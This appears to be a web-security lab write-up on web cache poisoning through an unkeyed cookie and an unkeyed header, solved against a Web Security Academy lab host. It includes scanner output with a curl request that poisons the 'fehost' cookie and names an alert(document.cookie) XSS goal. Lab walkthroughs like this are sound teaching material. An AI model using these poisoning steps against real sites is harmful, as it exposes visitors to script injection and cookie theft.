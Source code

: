 Cookie is Unkeyed.

Insert the malicious payload into `fehost`, URL encode and send. This solves the lab.


### Automation

```shell
./wcvs -u https://my.web-security-academy.net/ -gr
```

```shell
...
 --------------------------------------------------------------
| Cookie Poisoning
 --------------------------------------------------------------
Checking cookie session (1/2)
Overwriting session=gc66Bbr474E4HKDwPe3fBVIH7dmI09hc with session=789733060205
Checking cookie fehost (2/2)
Overwriting fehost=prod-cache-01 with fehost=456470347598
[*] fehost=prod-cache-01: Response Body contained 456470347598

[+] Cookie fehost was successfully poisoned! cbwcvs: 156573310846 poison: 456470347598
[+] URL: https://my.web-security-academy.net/?cbwcvs=156573310846
[+] Reason: Response Body contained 456470347598
[+] Curl: curl -X 'GET' -H 'Cookie: session=gc66Bbr474E4HKDwPe3fBVIH7dmI09hc; fehost=456470347598' -H 'User-Agent: WebCacheVulnerabilityScanner v1.3.3' 'https://my.web-security-academy.net/?cbwcvs=156573310846'
...
```

## Web cache poisoning with an unkeyed header
![Awesome Badges](https://img.shields.io/badge/level-practitioner-blue)

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. 

An unsuspecting user regularly visits the site's home page. 

To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

#### Solution

1. Navigate to Home page and investigate the Request and Response.

Request:
```http
GET / HTTP/2
Host: my.web-security-academy.net
...
Connection: keep-alive

```
